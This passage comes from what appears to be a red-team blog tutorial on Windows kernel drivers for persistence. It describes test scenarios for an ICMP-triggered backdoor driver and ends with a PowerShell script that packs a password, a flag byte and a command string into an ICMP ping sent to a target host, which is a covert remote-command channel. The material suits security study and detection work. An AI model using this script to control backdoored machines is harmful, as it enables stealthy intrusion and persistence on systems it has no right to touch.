 Afterwards, send the packet:

<figure>
<a href="/img/blog/red-team-tactics-writing-windows-kernel-drivers-for-advanced-persistence-part-2/12-poc-scenario2.gif" target="_blank"> <img class="centerImgHuge" src="/img/blog/red-team-tactics-writing-windows-kernel-drivers-for-advanced-persistence-part-2/12-poc-scenario2.gif"> </a>
<figcaption><a href="/img/blog/red-team-tactics-writing-windows-kernel-drivers-for-advanced-persistence-part-2/12-poc-scenario2.mp4" target="_blank">Video</a> demo</figcaption>
</figure>

As you may have expected, this packet is ignored due to the fact that the 5th byte must either be set to 1 or 0, but in our case the flag is set to `0x10`.

## Scenario 3
The third scenario demonstrates how the driver behaves when it receives an expected (valid) ICMP packet.

To showcase this, I've expanded the one-liner pinger from scenario 2 into a full-fledged PowerShell script:
```powershell
param(
  [Parameter(Mandatory=$True)]
  [string]$target,

  [Parameter(Mandatory=$True)]
  [int[]]$password,

  [Parameter(Mandatory=$False)]
  [switch]$flag,

  [Parameter(Mandatory=$True)]
  [string]$cmd
)

$data = $password + $(If ($flag) {0x01} Else {0x00}) + [Text.Encoding]::ASCII.GetBytes($cmd)
(New-Object System.Net.NetworkInformation.Ping).Send($target, 5000, $data)
```
